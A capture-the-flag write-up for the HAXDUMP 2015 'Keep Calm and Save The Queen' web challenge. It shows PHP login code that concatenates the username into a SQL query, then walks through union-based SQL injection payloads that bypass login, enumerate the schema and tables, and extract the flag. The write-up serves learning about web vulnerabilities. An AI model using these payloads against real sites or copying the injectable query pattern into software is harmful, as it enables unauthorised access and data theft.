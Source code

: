 ## HAXDUMP 2015 - Keep Calm and Save The Queen (Web 100)
##### 07/02/2015 (8hr)
___

### Description: 
The Queen's own online web portal thing!
 			 godsavethequeen.haxdump.com
			 godsavethequeen.tar.xz
___

We have the source. Let's look at the injection point (index.php):
```php
<?php
	include("database.php");

	if(isset($_POST['username'])) {
	  $username = $_POST['username'];
	  $sql = "SELECT * from users where username='$username'";
	  $result = mysql_query($sql, $db);

	  $row = mysql_fetch_assoc($result);

	  if($_POST['password'] === $row['password']) {
		session_start();
		$_SESSION['wow'] = true;
		echo "<h4 align='center'>User ".$row['username']." successfully logged in!</h4>";
	  }
	  else {
?>
```
It's obvious where the injection is. Let's register a user foo:bar and start crafting our injection: 
```
	username=foo&password=bar					--> User foo successfully logged in!
	username=foo' AND '1'='1&password=bar		-->  User foo successfully logged in!
```
Easy, isn't it? Go on.
```
	username=bar' UNION ALL SELECT 'foo', 'bar' -- &password=bar	
```
--> User foo successfully logged in!

The query:
```
	username=bar' username=bar' UNION ALL SELECT 'ispo', 'bar'-- &password=bar 
```
gives: "User ispo successfully logged in!". However  user ispo is not registered.

Let's find the database first:
```
	username=bar' UNION ALL SELECT (SCHEMA()), 'bar'-- &password=bar
```	
--> User briton successfully logged in!

Then the tables:
```
	username=bar' UNION ALL SELECT (SELECT GROUP_CONCAT(table_name) 
				 FROM information_schema.tables WHERE table_schema='briton'), 'bar'-- &password=bar 
```
--> User flags,users successfully logged in!

We'll assume that flag table has 1 column:
```
	username=bar' UNION ALL SELECT (SELECT * FROM flags), 'bar'-- &password=bar 
```
--> User D0_Y0U_H34R_TH3_P30PL3_H4X successfully logged in!

If flag table didn't had 1 column, we could get the columns as follows:
```
	username=bar' UNION ALL SELECT (SELECT GROUP_CONCAT(column_name) 
			FROM information_schema.columns WHERE table_name='flags'), 'bar'-- &password=bar 
```
--> User flag successfully logged in!
___